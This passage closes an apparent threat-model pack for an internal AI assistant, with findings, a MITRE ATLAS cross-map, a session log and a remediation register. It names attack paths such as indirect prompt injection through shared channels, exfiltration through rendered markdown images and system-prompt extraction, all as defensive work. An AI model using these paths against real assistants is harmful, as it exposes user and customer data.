- **The validation session has been held; its limits are these.** `[VS · v1.1]` Held 2026-09-09, 13:30–15:08, facilitated by the author. Appendix G is the session log, Appendix H the finding-level delta, Appendix I the action register, and `transcript.md` the record. Three limits bound what its confirmations are worth. **First, three seats were empty and each one owns findings**: Identity Platform did not respond and owns the blocking dependency behind S2, E1, E5 and CL1; Data Platform declined and holds the agreement behind P4 and CL1; and the owner of the standing platform security controls page did not attend — K. Osei sat in that seat as Security Champion and does not own the page, which is a material qualification on C5's closure (AR-01) and on every baseline-coverage answer in §3 and Appendix F. **Second, the confirmations are testimony, not artefacts.** Where an engineer converted an "if present" finding to an observation, it is because they configured the thing themselves and said so; that is better evidence than a document's silence and it is not a manifest. **Third, nobody was asked to guess, and the questions that got no answer got none.** C2, C4, CL4, CL5 and CL6 remain open and unconfirmed for exactly that reason, and the honest position on the eleven "if present" findings is that they are still eleven "if present" findings less the handful converted in §8.
- **The repository is still absent, and the session did not substitute for it.** `[VS §10 · STILL OPEN]` This is stated separately from the point above because it is the single largest limit on this pack and it did not change between v1.0 and v1.1. Redis authentication and encryption at rest (I2, T4), the sanitiser's actual behaviour (AI6, Q7), the system prompt's contents (AI15), the Pod Security Admission labels (C2), IRSA versus node role (CL6), the warehouse grants (CL5) and pilot-versus-production account separation (CL4) were all put to the room and none was answered. The next iteration's dependency is unchanged: the code.
- **Shipping gate.** The deterministic checkers that normally gate this document (`check_deliverable.py`, `check_mermaid.py`, `check_candidates.py`) could not be executed in this environment; their rules were applied by hand against the phase-1 register and this write-up, and the gate is left to the external checker.
- **Not legal advice.** The GDPR positions in §7, the DPIA requirement in P1, the sub-processor question in P4, the NIS2 sector determination and the EU AI Act applicability assessment should be confirmed with counsel and with the Data Protection Officer. The compliance table states applicability and evidence; it does not state legal conclusions.
- **Next iteration.** Re-run when three things exist: the repositories (`assistant-svc`, `assistant-connectors`, the two surfaces, and the infrastructure and Helm definitions), the data schemas, and the PLAT-2790 tickets. Re-run sooner if PLAT-2820 lands, since that single change closes or downgrades five findings and would justify a fresh severity pass. Open the next version with the delta table so the team gets credit for what it fixed.

---

## 12. Appendices

### Appendix A — Sources

| Ref | Source | Path | Date |
|---|---|---|---|
| S1 | Internal AI Assistant — Architecture (Approved) | `input/confluence/architecture.md` | 2026-05-22 |
| S2 | Internal AI Assistant — Data Handling and Pilot Operations (Draft) | `input/confluence/data-handling-and-pilot-ops.md` | 2026-06-30 |
| S3 | Platform Security Controls — Standing Reference (Approved) | `input/confluence/platform-security-controls.md` | 2025-11-14 |
| S4 | The assumed trust-boundary model of an agentic AI system | `input/confluence/diagram1-assumed.svg` | undated |
| S5 | PLAT-2810 — Epic and children | `input/tickets/plat-2810-hierarchy.md` | as extracted |
| S6 | PMO-0447 / PROD-1131 — Portfolio and initiative | `input/tickets/pmo-0447-prod-1131.md` | as extracted |

### Appendix B — Repositories and file map analysed

**None.** No repository, infrastructure code, Helm chart, Dockerfile, pipeline definition or schema was supplied, although the engagement brief named git repositories as a supporting source. The consequence is recorded in §11 and itemised in `00-context-sources-and-open-questions.md` §3.1. The components that would have been read, had they been supplied: `assistant-svc`, `assistant-connectors`, the Slack app, the web console, the infrastructure definitions for the EKS deployment, and the four MCP server manifests.

### Appendix C — Associated tickets

| Ticket | Title | State as extracted | Findings |
|---|---|---|---|
| PMO-0447 | Workplace Productivity Programme, FY26 H2 | In Delivery | O3, O5, P4 |
| PROD-1131 | Conversational access to internal systems | In Progress | O3, O4, P4, P6 |
| PLAT-2810 | Epic: Internal AI assistant | In Progress | AI5, AI11, AI15, CL3, CL4, E4, P5 |
| PLAT-2814 | Connect the assistant to our tools | In Progress | AI1 |
| PLAT-2814-1 | Stand up connector runtime | Done | C1, C2, C4, C5, CL6, I2, I4, S5, T2, T4, D2, D4, AI8 |
| PLAT-2814-2 | O365 connector | Done | P1, P7 |
| PLAT-2814-3 | Slack connector | Done | E2 |
| PLAT-2814-4 | GitHub connector | Done | E3 |
| PLAT-2814-5 | Web search connector | Done | AI6, AI10, C3, C6, I3 |
| PLAT-2814-6 | Narrow connector scopes before GA | **To Do, not scheduled** | E2, RR1 |
| PLAT-2817 | The assistant can act on my behalf | In Progress | AI4 |
| PLAT-2817-1 | Tool schema and dispatch | Done | AI3, D3 |
| PLAT-2817-2 | Write tools for O365 and Slack | Done | S4, AI13 |
| PLAT-2817-3 | Write tools for GitHub | Done | T3 |
| PLAT-2820 | Authorise as the requesting user | **To Do** | S2, R2, E1, O1 |
| PLAT-2820-1 | Delegated OAuth flows per connector | **To Do, blocked on Identity Platform** | S2, E1 |
| PLAT-2820-2 | Credential store | To Do | CL1, E5 |
| PLAT-2820-3 | Migrate prototype off the shared app registration | **To Do** | E1, S2, R2 |
| PLAT-2822-1 | Usage telemetry | Done | P2, CL5, AI12 |
| PLAT-2822-2 | Per-workspace model configuration | Done | T1, RR1 |
| PLAT-2822-4 | Spend alerting | **To Do** | CL2, D1 |
| PLAT-2825-1 | Render actions inline | Done | R1, R3, R4, D5, AI7 |
| PLAT-2825-2 | History view | Done | I1, R5, P3, AI14 |
| PLAT-2831 | Assistant available in Slack and web console | In Progress | E4 |
| PLAT-2831-2 | Web console surface | Done | AI2, S1 |
| PLAT-2831-3 | SSO on the web console | **To Do** | S1, I1, S3, O2 |

`[VS · v1.1]` **Three of the three new findings map to no ticket and to no supplied artefact.** **O6** is a config file in the organisation repository that no Confluence page references. **O7** is a decision that does not exist, so there is nothing to link it to; PLAT-2814 and PLAT-2814-5 are the artefacts that *imply* it and are the ones to be corrected once the decision is taken. **P8** lives in three Slack Connect channel configurations and two customer contracts, none of which was supplied.

**Remediation tickets to raise.** Seventeen of the twenty-two gaps in `04-gap-analysis.md` have no existing ticket: G-03, G-04, G-05, G-06, G-07, G-09, G-11, G-12, G-13, G-14, G-15, G-16, G-17, G-18, G-19, G-20 and G-22. Four map to tickets that exist and are unscheduled (G-01, G-02, G-08, G-10), and G-21 has a portfolio risk entry rather than a delivery ticket. The seven launch gates in §8 map to PLAT-2820, PLAT-2831-3, PLAT-2814-6 and PLAT-2822-4 where a ticket exists, and to new tickets for the output filter (AI2), argument allowlists and confirmation (AI3, AI4), the dispatch audit record (R1, R3), the connector isolation work (C1, C6, I4), and the DPIA (P1).

### Appendix D — Next steps

`[VS · v1.1]` Step 1 is discharged: the session was held on 2026-09-09 and its outcomes are merged throughout, logged in Appendix G, itemised in Appendix H and owned in Appendix I. The remaining steps are restated against what the session changed.

1. **Work the action register in Appendix I**, which supersedes this list for anything with an owner and a date. The three actions gating further pilot expansion are 8 (AI2's output filter), 9 (**O7**'s input-channel decision) and 14 (P1's mailbox exclusion).
2. Escalate PLAT-2820-1's Identity Platform dependency at portfolio level — it is the blocking dependency behind three Critical findings, it has been unscheduled since April, and Identity Platform did not attend the session. Note that it blocks E1's *interim* control as well as the permanent one.
3. Correct the architecture page's Authorisation section (O1), and adopt the control-claim convention alongside it, because **O6** and **O7** are two further instances of the same mechanism and the convention is what catches the next one.
4. Ship the CSP and markdown-subset change (AI2) — about three days across two owners, not one day, with TA-04 and TA-05 as the completion condition.
5. Raise the remediation tickets in Appendix C, including the three new findings which map to no ticket, and sequence them per `04-gap-analysis.md` §7.
6. **Obtain the two artefacts the session could not produce**: the model provider DPA from Data Platform (P4, action 17) and a schedule from Identity Platform (S2, E1, action 1). Both are escalations rather than requests at this point.
7. Re-run this model when the repositories, the schemas and the PLAT-2790 tickets are available. The session did not close the repository gap and did not pretend to — seven questions were put to the room in §10 of the transcript and none was answered.

### Appendix E — MITRE cross-map

| Finding | ATT&CK | ATLAS |
|---|---|---|
| S2, E1, R2 | T1078.004 Valid Accounts: Cloud Accounts | AML.T0012 Valid Accounts |
| T3, E3, C3, AI10 | T1195 Supply Chain Compromise | AML.T0010.005 AI Supply Chain Compromise: AI Agent Tool |
| I3, AI2 | T1567 Exfiltration Over Web Service | AML.T0077 LLM Response Rendering |
| I4, C5 | T1552.001 Unsecured Credentials: Files | AML.T0083 Credentials from AI Agent Configuration |
| CL6 | T1528 Steal Application Access Token | AML.T0098 AI Agent Tool Credential Harvesting |
| C1 | T1046 Network Service Discovery | AML.T0084 Discover AI Agent Configuration |
| C6 | T1611 Escape to Host | AML.T0105 Escape to Host |
| C4, D3, D4 | T1499 Endpoint Denial of Service | AML.T0034.002 Cost Harvesting: Agentic Resource Consumption |
| CL4 | T1199 Trusted Relationship | — |
| R5, CL3 | T1485 Data Destruction / T1490 Inhibit System Recovery | AML.T0101 Data Destruction via AI Agent Tool Invocation |
| AI1, AI5, AI14 | — | AML.T0051.001 Indirect Prompt Injection · AML.T0094 Delay Execution · AML.T0080.001 Context Poisoning: Thread |
| AI3, AI4 | — | AML.T0053 AI Agent Tool Invocation |
| AI6, AI7 | — | AML.T0068 Prompt Obfuscation · AML.T0005 Create Proxy AI Model |
| AI8 | — | AML.T0086 Exfiltration via AI Agent Tool Invocation |
| AI9, AI12 | — | AML.T0110.000 Tool Poisoning: Definition and Instructions · AML.T0109 Supply Chain Rug Pull |
| AI11 | — | AML.T0103 Deploy AI Agent |
| AI13 | — | AML.T0031 Erode AI Model Integrity |
| AI15 | — | AML.T0056 Extract LLM System Prompt |

Case studies cited: `AML.CS0059` (zero-click assistant exfiltration over corporate mail), `AML.CS0024` (retrieval-borne self-replicating injection), `AML.CS0045` / `AML.CS0053` / `AML.CS0054` (MCP-server exfiltration).

### Appendix F — Baseline control coverage per finding

| Baseline control | Closes outright | Narrows | Does nothing for |
|---|---|---|---|
| Egress proxy allowlist | Arbitrary-destination exfiltration from workloads | I3, AI8, AI10 | AI2 (client-side), E1, R1, P1 |
| No public ingress to internal services | Direct attack on the internal services | — | Everything reaching them through the surfaces |
| VPN with MFA | Unauthenticated reach to the console | S1 | I1, S3 — the console credential is shared behind it |
| Branch protection and signed commits `[VS §2 · CORRECTED]` | Unreviewed change to protected branches — **and only where the `platform-ci` exemption does not apply (O6)** | ~~T3, E3~~ **E3 only.** The T3 credit is withdrawn: the assistant commits to working branches, which this control does not cover, so it narrowed a path the assistant does not take | T3, working-branch commits, CI on push, a reviewer approving a plausible change, and the standing `platform-ci` exemption (**O6**) |
| Secret scanning with push protection | Secrets in the repositories | — | T2, I4 — runtime secrets and logs |
| Dependency and container scanning | Known-vulnerable dependencies and stale base images | C3 | AI9, AI10 — the MCP tool surface is not a package |
| Default-deny NetworkPolicy between namespaces | Cross-namespace lateral movement | — | C1, I2, T4 — everything is in one namespace |
| Debug endpoints disabled in production | Diagnostic route disclosure | — | T2 — log level is a separate setting |
| Secrets Manager with scoped workload identity | Secrets in source, images and artefacts | CL1 | I4 — one shared secret, one shared namespace |
| Platform logs, 90 days hot and 12 months cold | Retention shorter than detection lag | R4 | R1, R3, R5 — what is recorded, not how long |
| Workload identities per service `[VS §8 · CLOSED]` | Ad-hoc IAM sprawl — **and, on Platform Security's answer in the session, cluster RBAC and service-account token mounting for the assistant (C5, closed as AR-01)** | CL6 — offered the same closure and declined, because the node's own configuration is a different question from the workload's | **Nothing further for C5, on an assertion rather than an artefact.** The page's owner was not in the room; K. Osei answered as Security Champion. AR-01 records the dissent and the review trigger |
| Egress proxy allowlist, on TB9 specifically `[VS §4 · CONFIRMED]` | Nothing at this boundary | Nothing at this boundary | **AI2 entirely.** Listed as its own row because the session found two senior people relying on this control for this path, one of whom had cited it in two design reviews this quarter. The proxy sits on cluster egress and the fetch is made by the user's client |

### Appendix G — Session validation log

**Session held.** 2026-09-09, 13:30–15:08, 98 minutes. Internal. Recorded, transcribed and lightly tidied; the transcript ships with this pack as `transcript.md` and every `[VS §n]` tag in these documents resolves to a section of it.

**Facilitator and reviewer:** Brett Crawley, Principal Application Security Engineer.

**Material reviewed:** `Internal AI Assistant — Security Analysis Pack`, version 1.0, dated 2026-09-09. Eight documents plus a README index.

| Participant | Role | Findings they were needed for | Attended |
|---|---|---|---|
| Brett Crawley | Principal AppSec Engineer, facilitator | — | Yes |
| Dana Whitfield | Epic owner, Product — PROD-1131 | AI4, P1, E4, AI11, O1 propagation | Yes |
| Marcus Oyelaran | Lead architect; architecture page owner; engineering owner, PROD-1131 | O1, O2, S2, E1, E3, T3, AI1, AI6, O7 | Yes |
| Priya Raghunathan | Senior engineer; built the orchestrator and connector runtime | E1, E2, AI3, AI8, AI9, AI10, AI12, C1, C3, C6, R1, R3, T2, T3, T4, I2, I4, P2, CL1, D1, D3 | Yes |
| Tom Egerton | Engineering manager, Support; pilot coordination | P1, P6, O4, O5, AI1, P8 | Yes |
| Ines Ferreira | Data Protection Officer | P1, P2, P3, P4, P6, P7, P8, O3, §7 | Yes |
| Kwame Osei | Security Champion, Platform | O2, I3, CL1, CL6, C1, C2, C5, C6, AI2, Appendix F | Yes, **in the controls-page owner's seat, which he does not own** |
| Identity Platform representative | Owner of the blocking dependency | S2, E1, E5, CL1 — and the schedule for PLAT-2820-1 | **No — no response** |
| Data Platform representative | Model provider agreement and key management | P4, CL1, T1 | **No — declined, holiday** |
| Owner, Platform Security Controls standing page | Standing controls owner | O2, O6, C5, and the baseline coverage in Appendix F | **No** |

**What the empty seats cost.** Recorded because it bounds what the rest of this appendix is worth. The Identity Platform absence leaves PLAT-2820-1 exactly where it was — blocked since 2026-04-18, unscheduled — and it also blocks E1's *interim* control, because the Entra application access policy is the same team's change. The Data Platform absence leaves P4 unverifiable; it stays High rather than being downgraded on the expectation of a document nobody has produced. The standing-page owner's absence is the qualification on **AR-01**: C5 closed on an answer given in that seat by someone who does not own the page.

**Corrections to the pack.** Five, each recorded at its finding and summarised in Appendix H: T3's status and likelihood (§2); P1's text on where customer data goes (§7); NIS2's applicability route (§7); ISO 27001's applicability (§7); and AI2's cost (§4). One further correction is structural rather than factual — the pack's assumption that a decision existed behind the untrusted-content position (**O7**, §3).

**Confirmations.** Every severity walked in the room was confirmed. Named confirmations of substance: O1 by the author of the page it criticises; AI1's trust-model defect by the author of the trust model; AI3, R1, R3, P2, AI10, AI12, C3, C1, D1 and D3 by the engineer who built the components; AI2's blindness to the egress proxy by the two people who had been relying on the proxy; P1, P6 and AI13 by the Data Protection Officer, who asked specifically that AI13 not be softened.

**Severity and status changes.** T3: 🟡 Partial → 🔴 Open, likelihood Medium → High. C5: 🔴 Open → ⚪ Accepted. No severity rating changed. Three findings added: O6, O7, P8, all High, all Open.

**Accepted risks.**

| ID | Risk | Owner | Basis | Dissent | Expiry / review trigger |
|---|---|---|---|---|---|
| **AR-01** | Cluster RBAC verbs and `automountServiceAccountToken` for the assistant's pods accepted as covered by the platform workload-identity baseline rather than verified against manifests (C5) | **Kwame Osei**, for Platform Security | The manifests come off the platform template and the template is the control; no connector calls the Kubernetes API | **Priya Raghunathan** — "I'd want to look at the manifests before anyone writes that down" | Reopens on a manifest pass showing a template deviation, or if any component acquires a Kubernetes API call. The page's owner was absent |
| **AR-02** | Outbound mail and Slack posts continue to execute without confirmation pending a risk-based confirmation model (AI4) | **Dana Whitfield** | Confirm-on-everything was tested and killed usage; the risk boundary is the thing to design, not the gate | **Tom Egerton** — on mail leaving the organisation to customers | **Three weeks.** Expires when the confirmation model is brought back and AI4's recommendation is revisited against it |
| **AR-03** | Support loses the mailbox history summary — "most of the value" — while the DPIA runs (P1 interim) | **Tom Egerton**, accepting on behalf of Support | Better than discovering later that the processing should not have happened | None. Accepted by the function bearing the cost | Ends on the DPIA outcome |
| **AR-04** | The commit capability is disabled at the dispatcher; its return before GA is a product commitment, not a security position (T3, E3) | **Dana Whitfield** | Two genuine uses in two months; "the assistant can open a PR for you" is Phase 2 scope | None | Returns only behind delegated authorisation (PLAT-2820) or an agreed compensating control |

**Questions put to the room and not answered.** `[VS §10 · STILL OPEN]` Redis authentication and encryption at rest (I2, T4); what the sanitiser does (AI6, Q7); the system prompt's contents as a security artefact (AI15); Pod Security Admission level on the namespaces (C2); IRSA versus node role and the IMDSv2 hop limit (CL6); the warehouse grants (CL5); whether pilot and production are separate accounts (CL4). Nobody was asked to guess and nobody did.

**Disagreements left open.** T3's second uncovered path — a reviewer approving a plausible change — which the architecture owner holds is a reviewer problem rather than an assistant problem (§2). AI4's fix shape, pending the confirmation model (§5). Both are recorded as disagreements rather than resolved in the write-up.

**Closing condition set by the facilitator.** Corrections marked in the session go into version 1.1 with the correction tagged inline and the transcript shipped alongside; participants had until the Friday following the session to dispute anything recorded, after which it is the record.

### Appendix H — Finding-level delta, v1.0 to v1.1

Every finding the session touched. Findings not listed were not walked in the room and are unchanged; their v1.0 status is unaltered and uncorroborated.

| Finding | v1.0 | v1.1 | Change | Provenance |
|---|---|---|---|---|
| **O1** | Critical 🔴 | Critical 🔴 | Confirmed by the page's author; propagation confirmed as already realised, in writing, twice, to the steering group | `[VS §1]` |
| **E1** | Critical 🔴 | Critical 🔴 | Confirmed. **New:** the interim control is blocked by the same team as the permanent one | `[VS §1]` |
| **S2** | Critical 🔵 | Critical 🔵 | Confirmed. Q5 answered: no user identity reaches the connector call | `[VS §1]` |
| **R2** | High 🔴 | High 🔴 | Confirmed, no dispute on severity | `[VS §1]` |
| **T3** | High 🟡 Partial, likelihood Medium | **High 🔴 Open, likelihood High** | **Corrected.** Branch protection bounds a path the assistant does not take. Appendix F amended. Interim: commit tool disabled at the dispatcher | `[VS §2]` |
| **E3** | High 🔴 | High 🔴 | Confirmed; mitigation shape endorsed by the architecture owner and paired with the interim | `[VS §2]` |
| **O6** | — | **High 🔴 new** | Standing `platform-ci` branch-protection exemption, in no citable document | `[VS §2]` |
| **AI1** | Critical 🔴 | Critical 🔴 | Confirmed. **Premise corrected:** the position it criticises was never decided (O7). **New:** three Slack Connect channels; the mailbox is one shared address | `[VS §3]` |
| **AI6** | High 🟡 | High 🟡 | Unchanged as rated. Ratification accepted; Q7 still open — the owner does not know what the sanitiser does | `[VS §3]` |
| **O7** | — | **High 🔴 new** | The untrusted-content position was inherited across three artefacts and never decided | `[VS §3]` |
| **AI2** | Critical 🔴 | Critical 🔴 | Confirmed, including TB9's absence from the diagram by its author. **Cost corrected: one day → about three** | `[VS §4]` |
| **I3** | High 🟡 | High 🟡 | Unchanged as rated | `[VS §4]` |
| **AI3** | Critical 🔴 | Critical 🔴 | **Confirmed rather than suspected** — the dispatcher validates shape, not values | `[VS §5]` |
| **AI4** | High 🔴 | High 🔴 | **Contested on the fix, not the finding.** Confirmation on commits accepted; mail and posts refused; outbound mail unresolved. Accepted risk **AR-02** | `[VS §5]` |
| **AI13** | High 🔴 | High 🔴 | Stands at High at the DPO's explicit request | `[VS §5]` |
| **R1** | High 🔴 | High 🔴 | Confirmed field by field; the contradiction conceded by the author of both paragraphs | `[VS §6]` |
| **R3** | High 🔴 | High 🔴 | Confirmed by its implementer; R1-then-R3 ordering now a commitment | `[VS §6]` |
| **T2** | High 🔴 | High 🔴 | Confirmed; cost stated at half a day; bodies removed rather than gated | `[VS §6]` |
| **P1** | Critical 🔴 | Critical 🔴 | **Text corrected** — customer data reaches context, Redis and the model provider, not the telemetry warehouse. Severity and rationale unaffected. Interim and DPIA both agreed | `[VS §7]` |
| **P2** | High 🔴 | High 🔴 | Confirmed at schema level: `user_ref` on every row | `[VS §7]` |
| **P4** | High 🔴 | High 🔴 | Stays High on absent evidence, not downgraded on its expectation | `[VS §7]` |
| **P6** | High 🔴 | High 🔴 | Accepted as written, all three audiences | `[VS §7]` |
| **P7** | High 🔴 | High 🔴 | Confirmed. **New:** delegated credentials leave a residual the mitigation did not name | `[VS §7]` |
| **P8** | — | **High 🔴 new** | Two contractually-obligated customers correspond through the least-governed channels | `[VS §3, §7]` |
| **O3** | High 🔴 | High 🔴 | Interim gate's justification hardened by the NIS2 contractual route | `[VS §7]` |
| **C1** | High 🔴 | High 🔴 | Confirmed still true; bundled with C6, I4, AI10 as one piece of work | `[VS §8]` |
| **C6** | High 🔴 | High 🔴 | Confirmed. **New:** no gVisor anywhere, so the tainted node pool is the realistic form | `[VS §8]` |
| **I4** | High 🔴 | High 🔴 | Confirmed. **New:** rotation currently breaks all four connectors, so nobody rotates | `[VS §8]` |
| **CL1** | High 🔴 | High 🔴 | Its central argument confirmed as an operational fact; cadence still unstated | `[VS §8]` |
| **AI10** | High 🔴, "if present" | High 🔴, **observed** | **Promoted from assertion of absence to observation.** All four servers on `latest`, no digest anywhere | `[VS §8]` |
| **AI12** | Medium 🔴, "if present" | Medium 🔴, **observed** | Promoted likewise; no inventory exists | `[VS §8]` |
| **C3** | High 🟡, "if present" | High 🟡, **provenance half observed** | Images referenced by tag, not digest | `[VS §8]` |
| **C5** | Medium 🔴 | **Medium ⚪ Accepted** | **Closed** on the platform workload-identity baseline. Accepted risk **AR-01**, owner K. Osei, dissent recorded | `[VS §8]` |
| **C2** | High 🔴 | High 🔴 | Stays open as the enforcement item; PSA labels unanswered | `[VS §8, §10]` |
| **CL6** | High 🔴 | High 🔴 | Stays open; the same closure was offered and declined | `[VS §8]` |
| **CL5** | Medium 🔴 | Medium 🔴 | Stays open; warehouse grants unanswered | `[VS §7]` |
| **AI11** | High 🔴 | High 🔴 | Confirmed; no named owner exists. **New:** scale-to-zero removes the record as well as the service | `[VS §9]` |
| **O5** | Medium 🔴 | Medium 🔴 | Confirmed; the two Slack posts get written up as the first two entries | `[VS §9]` |
| **D1, D3** | High 🔴 | High 🔴 | Confirmed: no ceiling on the loop today. Hours of work, this sprint | `[VS §9]` |
| **AI15** | Medium 🔴 | Medium 🔴 | Confirmed unassessed; contents still unknown | `[VS §10]` |
| **I2, T4** | High 🔴, "if present" | High 🔴, "if present" | Unchanged. Redis authentication and at-rest encryption deliberately unanswered | `[VS §10]` |
| **CL4** | Medium 🔴 | Medium 🔴 | Unanswered | `[VS §10]` |

### Appendix I — Action register from the validation session

Owners and dates as recorded in the room. Actions 23 to 25 are the session's own record-keeping items and are discharged by this version.

| # | Action | Findings | Owner | By |
|---|---|---|---|---|
| 1 | Escalate PLAT-2820-1 at portfolio level with the COO office, citing the finding IDs. Not a refinement item | E1, S2, R2, O1 | Marcus Oyelaran | This week |
| 2 | Correct the architecture page's Authorisation section: mark it target state, link PLAT-2820 and its status, add a paragraph describing the shared app registration as built | O1 | Marcus Oyelaran | This week |
| 3 | Adopt the page convention that a control claim carries its delivering ticket and that ticket's state; a page cannot be Approved with a claim whose ticket is not Done | O1, G-22 | Marcus Oyelaran | Before next forum |
| 4 | Request the Entra application access policy scoping the O365 registration to the pilot group | E1 | Priya Raghunathan | 2 weeks |
| 5 | Narrow the GitHub App installation to a named repository list, exclude public repositories, split read from write | E3, T3 | Marcus Oyelaran / Priya Raghunathan | 2 weeks |
| 6 | Disable the commit tool at the dispatcher until delegated authorisation lands | T3 | Priya Raghunathan | This week |
| 7 | Record the `platform-ci` branch-protection exemption on the standing controls page, or in the exceptions register when it exists | **O6**, T3, O2 | Kwame Osei | 2 weeks |
| 8 | Ship CSP `img-src 'self'` on the console and a markdown subset stripping image and link tags at all four sinks, verified by TA-04 and TA-05 | AI2 | Priya Raghunathan / Kwame Osei | Before any expansion |
| 9 | Take a written decision on which input channels are untrusted and what handling each receives. The decision does not exist and is not to be inferred from PLAT-2814's acceptance criterion | **O7**, AI1, AI6, G-06 | Marcus Oyelaran, with Kwame Osei and Ines Ferreira | Before any expansion |
| 10 | Ratify in writing that the web-search sanitiser is not load-bearing, so no design page cites it as the reason untrusted content is safe | AI6 | Marcus Oyelaran | 1 month |
| 11 | Bring a risk-based confirmation model — which actions confirm and on what basis — and revisit AI4's recommendation against it | AI4, **AR-02** | Dana Whitfield | 3 weeks |
| 12 | Build the dispatch audit record, then re-source the action display from it. In that order | R1, R3 | Priya Raghunathan | Before GA |
| 13 | Remove document and mail bodies from the debug logging path rather than gating them | T2 | Priya Raghunathan | This sprint |
| 14 | Exclude the Support shared mailbox at the O365 connector pending the DPIA outcome | P1, **AR-03** | Priya Raghunathan | Friday |
| 15 | Start the DPIA covering the assistant, with the shared mailbox as its central question and a date past which Support's use does not resume without it | P1 | Ines Ferreira | Started this week |
| 16 | Record the NIS2 position: not an essential or important entity, but obligations flow contractually from two customers. Correct threat model §7 and gap analysis §4 | O3, **P8**, G-21 | Ines Ferreira | 2 weeks |
| 17 | Escalate the request for the model provider DPA to Data Platform; P4 remains High until the scope is evidenced | P4 | Ines Ferreira | 1 week |
| 18 | Drop the telemetry user dimension after the billing period; aggregate to team thereafter | P2 | Priya Raghunathan | 1 month |
| 19 | Apply a field allowlist at the O365 connector returning start, end and free/busy only | P7 | Priya Raghunathan | 3 weeks |
| 20 | Take C1, C6, I4 and AI10 to Platform Security as one piece of work: namespace, service account and secret scope per connector, isolation for the web-search connector | C1, C6, I4, AI10 | Kwame Osei | 3 weeks |
| 21 | Pin all four MCP servers by digest and start the AI-BOM with servers, model version and prompt version | AI10, AI12, C3 | Priya Raghunathan | 3 weeks |
| 22 | Split the shared connector secret per connector so rotation stops being an outage | I4, CL1 | Priya Raghunathan | 1 month |
| 23 | **C5 closed** — covered by the platform workload-identity baseline; carried as accepted risk **AR-01** with dissent recorded | C5 | Kwame Osei | Closed |
| 24 | **T3 corrected** — Partially mitigated → Open, likelihood Medium → High; Appendix F amended; roll-up restated | T3 | Brett Crawley | **Done in v1.1** |
| 25 | **P1 corrected** — customer data reaches context, Redis and the model provider, not the telemetry warehouse. Severity Critical unchanged | P1 | Brett Crawley | **Done in v1.1** |
| 26 | Name the kill-switch owner; the owner then builds a granular stop mechanism with a stated propagation time and drills it | AI11 | Dana Whitfield | 2 weeks |
| 27 | Write four AI incident playbook entries; record the two mistaken Slack posts retrospectively as the first two | O5, AI13 | Tom Egerton | 1 month |
| 28 | Hard caps on tokens per turn, per conversation and per user-day, and an iteration ceiling on the agent loop | D1, D3 | Priya Raghunathan | This sprint |
| 29 | Confirm the warehouse grants, the Pod Security Admission labels, IRSA versus node role, and whether pilot and production share an account. Nobody answered these | CL4, CL5, CL6, C2 | Kwame Osei | 3 weeks |
| 30 | **No further pilot expansion until actions 8, 9 and 14 are complete** | AI2, **O7**, P1 | Dana Whitfield | Standing |

